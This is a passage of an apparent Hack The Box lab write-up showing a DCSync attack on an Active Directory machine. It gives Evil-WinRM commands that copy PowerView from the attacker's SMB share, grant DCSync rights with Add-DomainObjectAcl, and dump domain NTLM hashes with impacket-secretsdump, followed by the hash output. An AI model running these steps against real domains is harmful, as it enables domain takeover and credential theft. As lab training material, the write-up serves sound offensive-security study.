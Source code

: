 
Lets use the ```WriteDACL``` ACL to give access to ```DCSync``` rights to our new user,

Crafting the credential object for our new user,



```c
*Evil-WinRM* PS C:\Users\aidenpearce369\Documents> cd ..
*Evil-WinRM* PS C:\Users\aidenpearce369> $pass = convertto-securestring 'C@ntH4ckM3' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\aidenpearce369> $cred = New-Object System.Management.Automation.PSCredential ('HTB\aidenpearce369', $pass)
```

We need ```PowerView``` to write the ```DCSync``` ACL,

```c
*Evil-WinRM* PS C:\Users\aidenpearce369> copy \\10.10.14.4\MONISH\PowerView.ps1 .
*Evil-WinRM* PS C:\Users\aidenpearce369> ls


    Directory: C:\Users\aidenpearce369


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/16/2016   6:18 AM                Desktop
d-r---        3/27/2022   8:05 AM                Documents
d-r---        7/16/2016   6:18 AM                Downloads
d-r---        7/16/2016   6:18 AM                Favorites
d-r---        7/16/2016   6:18 AM                Links
d-r---        7/16/2016   6:18 AM                Music
d-r---        7/16/2016   6:18 AM                Pictures
d-----        7/16/2016   6:18 AM                Saved Games
d-r---        7/16/2016   6:18 AM                Videos
-a----        3/27/2022   5:33 AM         770279 PowerView.ps1


*Evil-WinRM* PS C:\Users\aidenpearce369> . ./PowerView.ps1
*Evil-WinRM* PS C:\Users\aidenpearce369> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity aidenpearce369 -Rights DCSync
```

```DCSync Privilege``` is added to our new user, we can easily dump all hashes using ```DCSync Attack```

We can do that using ```impacket-secretsdump``` remotely or by using ```mimikatz``` locally on target machine

Now lets dump the secrets using the ```DCSync permission``` of our new user,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-secretsdump aidenpearce369:C@ntH4ckM3@10.10.10.161
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```